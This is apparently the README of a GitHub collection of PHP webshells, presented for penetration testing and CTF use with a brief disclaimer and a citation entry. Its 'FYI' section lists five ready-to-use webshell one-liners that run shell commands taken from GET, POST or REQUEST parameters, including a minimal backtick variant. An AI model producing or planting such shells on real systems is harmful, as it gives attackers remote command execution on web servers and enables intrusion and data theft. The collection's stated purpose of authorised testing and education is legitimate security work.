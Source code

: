 Contributing
============

To contribute other shells not listed here... Fork, Push the changes to your repo, then before you request for a Pull, make sure to include a simple description of your **php** web-shell and include a screen-shot of the web-shell (as hosted in your localhost).

PHP Webshells
=============

Common PHP shells is a collection of PHP webshells that you may need for your penetration testing (PT) cases or in a CTF challenge. 

Do not host any of the files on a publicly-accessible webserver (unless you know what you are up-to).

These are provided for education purposes only and legitimate PT cases.

I'll keep updating the collection whnever I stumble on any new webshell.

FYI
====


For basic features, I recommend one-liners like :

`<?php echo passthru($_GET['cmd']); ?>`

`<?php echo exec($_POST['cmd']); ?>`

`<?php system($_GET['cmd']); ?>`

`<?php passthru($_REQUEST['cmd']); ?>`

smallest one-liner shell:
===
```
<?=`$_GET[C]`?>
```

Cite:
=====

```
@software{jacques_pharand_2020_3748072,
  author       = {Jacques Pharand and
                  John Troon and
                  Javier Izquierdo Vera},
  title        = {JohnTroony/php-webshells: Collection CS1},
  month        = apr,
  year         = 2020,
  publisher    = {Zenodo},
  version      = {1.1},
  doi          = {10.5281/zenodo.3748072},
  url          = {https://doi.org/10.5281/zenodo.3748072}
}

```
